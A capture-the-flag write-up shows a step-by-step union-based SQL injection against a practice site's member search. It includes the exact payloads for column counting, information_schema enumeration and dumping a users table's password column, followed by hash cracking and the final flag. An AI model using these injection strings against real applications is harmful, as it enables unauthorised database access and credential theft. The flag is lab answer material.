 **10.0.0.14/?page=member**

A simple SQL injection will not work here.

Testing the page's function to search for user function.
This makes a search for a user by id and then returns a result.
The SQL query probably makes a search to a single column (id column).

An input of a single quote ' returns an error message that there is a SQL syntax error.
_http://10.0.0.14/index.php?page=member&id=%27&Submit=Submit#_
From this, an attacker will be able to see that the application use MySQL and is vulnerable to SQL injections.

The application does not respond to *1 ' or 1=1--*. *1 or 1=1--* works. This will return all users from the database.
This application just searches for users in a database and not log into any account.

No flag has beeen returned...
We will go further.
The ORDER command will be used to find the number of columns that are present in the current table.
The limit is 2 columns as an error is brought up when 3 is used.
_http://10.0.0.14/index.php?page=member&id=1+ORDER+BY+3--&Submit=Submit#_

Now find the datatypes used for each column by using the UNION SELECT command and the NULL keyword in combination.
_http://10.0.0.14/index.php?page=member&id=1+UNION+SELECT+NULL%2C+NULL--&Submit=Submit#_
_http://10.0.0.14/index.php?page=member&id=1+UNION+SELECT+123%2C+321--&Submit=Submit#_
The datatypes returned are both integer.

Since MYSQL is used, information\_schema.tables and table\_schema will be used to get database information.
_1 union select null, table_name from information_schema.tables where table_schema = database()--_
We now have the name of the table, users (This is selected from the current database with the help of *database()*).
_1 union select null, column_name from information_schema.columns where table_schema = database()--_
This gives us all the columns present in the table users.

There appears to be columns called comment (Commentaire), and countersign (password).
These columns can be searched as it seems to stand out. The others are just dealing with place name and names of people.
Search both at the same time with the following:
_1 union select null, concat(Commentaire, countersign) from users--_
*concat()* is MySQL's concatenation function. Piping will not work for concatenation here.

Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
We get FortyTwo
Change it to fortytwo.
Lastly we get:
**FLAG:
10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5**

https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html
https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/

*The hackbar firefox extension can be used for this but avoid tools.*

